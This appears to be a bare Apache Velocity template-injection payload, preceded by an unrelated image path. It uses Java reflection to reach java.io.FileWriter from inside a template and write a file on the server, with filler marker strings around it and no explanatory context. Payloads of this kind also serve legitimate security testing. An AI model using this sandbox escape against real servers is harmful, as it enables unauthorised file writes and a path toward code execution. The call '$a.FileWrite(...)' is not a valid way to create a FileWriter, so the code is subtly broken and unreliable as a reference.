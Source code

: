 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b=$a.FileWrite("./uuuu"))
#set ($c=$b.write("zzz"))
#set ($d = $b.flush())
#set ($f = $b.close())
$a
$b
$c
$d
$f
$monkey
